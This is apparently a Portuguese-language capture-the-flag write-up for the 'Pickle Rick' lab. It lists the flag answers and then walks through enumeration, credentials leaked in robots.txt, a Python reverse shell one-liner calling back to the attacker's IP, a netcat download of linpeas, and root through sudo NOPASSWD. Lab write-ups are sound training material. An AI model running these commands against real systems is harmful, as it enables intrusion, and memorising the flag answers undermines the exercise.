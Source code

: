 # Lab: Pickle Rick (Easy Mode)

## TASKs:

1. **What is the first ingredient that Rick needs?** `mr. meeseek hair`
2. **What is the second ingredient in Rick’s potion?** `1 jerry tear`
3. **What is the last and final ingredient?** `fleeb juice`

---

```
export IP=10.10.89.179
```
```
ip addr show tun0 # 10.8.32.62/16
```

---

## 1) Enumeração com Nmap
```bash
nmap -A $IP
```
**Resultados:**
```
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
```
**Fonte:** http://10.10.89.179/ -> **Username:** R1ckRul3s

---

## 2) Enumeração com Gobuster
```bash
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -u http://$IP -x php,sh,txt,html,js,css,py
```
**Diretórios e Arquivos Encontrados:**
```
/assets/
/robots.txt -> Wubbalubbadubdub
/login.php -> Username: R1ckRul3s , Password: Wubbalubbadubdub
/portal.php -> (INFO: Após Login!) Command Panel: "ls", "less", "grep .", "grep -R ." -> (toda a info de todos os ficheiros)
```
**Flags Identificadas:**
```
Sup3rS3cretPickl3Ingred.txt: mr. meeseek hair (INFO: FLAG!)
clue.txt: Look around the file system for the other ingredient.
```
**Comandos Não Permitidos:**
```php
$cmds = array("cat", "head", "more", "tail", "nano", "vim", "vi");
```

**Possível Codificação Base64:**
```
Vm1wR1UxTnRWa2RUV0d4VFlrZFNjRlV3V2t0alJsWnlWbXQwVkUxV1duaFZNakExVkcxS1NHVkliRmhoTVhCb1ZsWmFWMVpWTVVWaGVqQT0==
```

---

## 3) Decodificação Base64
```bash
echo Vm1wR1UxTnRWa2RUV0d4VFlrZFNjRlV3V2t0alJsWnlWbXQwVkUxV1duaFZNakExVkcxS1NHVkliRmhoTVhCb1ZsWmFWMVpWTVVWaGVqQT0== | base64 -d | base64 -d | base64 -d | base64 -d | base64 -d | base64 -d | base64 -d
```
**Resultado:**
```
rabbit hole
```

---

## 4) Verificação e Exploração Python
```bash
python3 -c "print('hello')" # Verificar se python3 está disponível
```
**Reverse Shell (Pentestmonkey Reverse Shell CheatSheet)**
```bash
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.8.32.62",9999));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call(["/bin/sh","-i"]);'
```
**Listener no Terminal:**
```bash
netcat -lnvp 9999
```

---

## 5) Estabilização de Shell
```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```
**Erros Possíveis:**
```
/bin/sh: 0: can't access tty; job control turned off
```
**Correção:**
```bash
export TERM=xterm
ls
```

---

## 6) Escalada de Privilégios
```bash
stabilize_shell3.sh
upload_file_nc.sh /opt/linpeas.sh
```
**Execução do Linpeas:**
```bash
nc -q 0 10.8.9.112 19934 > /dev/shm/lin
cd /dev/shm
ls # linpeas.sh
chmod +x linpeas.sh
./linpeas.sh
```
**Identificação:**
```
(ALL) NOPASSWD: ALL (INFO: Acesso total sem senha)
```
**Escalação para Root:**
```bash
sudo bash
```
**Flags Encontradas:**
```bash
ls # 3rd.txt
cat 3rd.txt # feeb juice
```
**Exploração de Diretórios de Usuário:**
```bash
cd /home
ls # rick
cd rick/
ls # second ingredientes
cat * # 1 jerry tear
```
